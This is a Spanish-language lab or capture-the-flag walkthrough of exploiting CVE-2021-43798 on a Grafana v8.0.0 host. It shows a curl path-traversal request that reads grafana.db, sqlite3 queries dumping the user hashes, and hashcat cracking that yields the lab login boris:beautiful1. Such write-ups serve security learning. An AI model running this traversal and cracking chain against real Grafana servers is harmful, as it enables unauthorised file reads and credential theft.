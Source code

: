 #CVE-2021-43798

----

Grafana V8.0.0

-------
Entramos a http://10.129.234.47:3000 y tenemos este login panel de grafana y nos muestra que tiene la version v8.0.0
![[Data3.png]]

Vamos a usar [[searchsploit]] con el comando `searchsploit grafana` y vemos que tiene una vulnerabilidad para la version 8.3.0 como tenemos una version anterior a esa suponemos que puede estar la vulnerabilidad activa asi que vamos a descargar el exploit con `searchsploit -m multiple/webapps/50581.py`


![[Data7.png]]

Como indica el titulo del exploit, sirve para realizar un LFI, asi que vamos a buscar en google la ubicaicon de la base datos de grafana y nos da la siguiente ubicacion `/var/lib/grafana/grafana.db`


![[Data17.png]]
Ahora vamos a ejecutar el exploit `python3 50581.py -H http://10.129.234.47:3000` y vamos a leer el archivo `/var/lib/grafana/grafana.db`

![[Data16.png]]

![[Data15.png]]
Vimos como funcionaba el script y lo hicimos de forma manual para descargar el archivo.db ya que cuando lo leiamos la base de datos daba mucho texto y no se entendia bien

Con [[curl]] vamos a descargar la base de datos `curl 'http://10.129.234.47:3000/public/plugins/zipkin/../../../../../../../../var/lib/grafana/grafana.db' --path-as-is --output grafana.db` y lo vamos a exportar en un archivo llamado grafana.db
![[Data18.png]]



## Abrir archivo de base de datos con [[sqlite3]]

Usamos el comando `sqlite3 grafana.db` para abrir el archivo de la base de datos
```
.tables                  /Para las tablas
select * from user;      /Para mostrar todo el contenido de la columna user
```

![[Data19.png]]
nos da esto `dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl|mYl941ma8w`
Y un dato importante es que boris se esta conectando por el dominio *data.vl*



## Crackear el hash con [[Hashcat]]

Con [[git clone]] vamos a descargar el repositorio `git clone https://github.com/iamaldi/grafana2hashcat` ya que el grafana no guarda los hashes en una forma estandar

vamos a crear un archivo y poner el hash de la siguiente forma
![[Data20.png]]

```
dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8,LCBhdtJWjl
```

Ejecutamos el exploit pasandole el archivo que creamos anteriormente `python3 grafana2hashcat.py hash`
![[Data21.png]]
 Nos da este resultado ``sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=``

Ahora con [[Hashcat]] vamos a crackearlo con el siguiente comando `hashcat -m 10900 crack --wordlist /usr/share/wordlists/rockyou.txt `

![[Data22.png]]
nos dice que la contraseña es  y el usuario es boris
Y nos da la contraseña *beautiful1* del usuario boris
boris:beautiful1
